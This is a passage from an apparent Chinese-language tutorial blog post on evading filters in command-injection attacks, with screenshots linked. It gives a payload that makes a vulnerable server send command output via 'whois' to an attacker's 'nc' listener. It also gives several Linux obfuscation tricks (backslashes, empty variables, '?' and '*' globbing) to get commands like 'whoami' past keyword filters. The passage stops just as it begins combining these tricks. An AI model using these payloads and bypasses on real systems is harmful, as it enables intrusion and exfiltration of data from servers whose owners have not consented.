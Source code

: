 ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicdlYjXqFcafGPia18P79McaIgI5n4ibicyibtickLW28FuoiaibyOKqoN7RXFw/640?wx_fmt=png)

#### 2.2 利用未被过滤的命令，一个例子！

看图好了

```
自己服务器中：nc -lvvp 端口
payload发送给对方：whois -h ip -p 端口`命令`//``为反引号
//下图以自身服务器的1234端口作演示，实际情况根据个人更改
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicpDJRAxh3KznWLjq2FWqnzCY77tzTp4OicWK9cR9hww0m5T7tH0uiaicfg/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicLcfKyFxeRqicLL8K8AHu8HXBBQ6RJyA6CMY8vOCpwquJqLef1YWEPAg/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicoe0W4FrHCibALJd4KQUuTzptEicHQoCusEic3xKfN6ZdlIO7uzr7iaNVHQ/640?wx_fmt=png)

使用 whois 来执行命令和传输文件

在实际的攻击场景中，可以在自己的攻击服务器上用 nc 监听一个公网端口，然后在存在命令执行漏洞的网站中发送 payload 请求，

对它使用 whois 命令使其命令执行结果返回给 nc 监听的端口，从而在自己服务器中查看

#### 2.3 linux 进阶，符号之间的组合

继续说回来，刚才我说了，windows 下双引号和幂运算符号都不会影响命令的执行，linux 也同理，如下图

```
wh\oami
wh$1oami
who$@ami
whoa$*mi
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicnOFEF7W0iaicol01cCwNCrXSwEWyCD6C9jNRhrFatmVVBXot8TbNrqPQ/640?wx_fmt=png)

在绕过时，不管是 windows 还是 linux，都可以自写 fuzz 脚本来进行测试

在 linux 中? 扮演的角色是匹配任意一个字符，用? 来绕过限制

```
which whoami //找到whoami路径
/u?r/?in/wh?am?
which ifconfig //找到ifconfig
/us?/sbin/if?onfig
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicgibY2q56ALrL6Cs4zOibrzc4OHIRbPfictamNborowMO9ZVqm0xdZFHjA/640?wx_fmt=png)  
同理可得，星号 * 在 linux 中用来代表一个或多个任何字符，包括空字符

```
/*/bin/wh*mi
/us*/*in/who*mi
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicf3Lnhf9mia4wFUmf8t7ko9eqFGeS3uVspSQMlmZiavXxcYu6aGThzqvA/640?wx_fmt=png)  
组合起来！
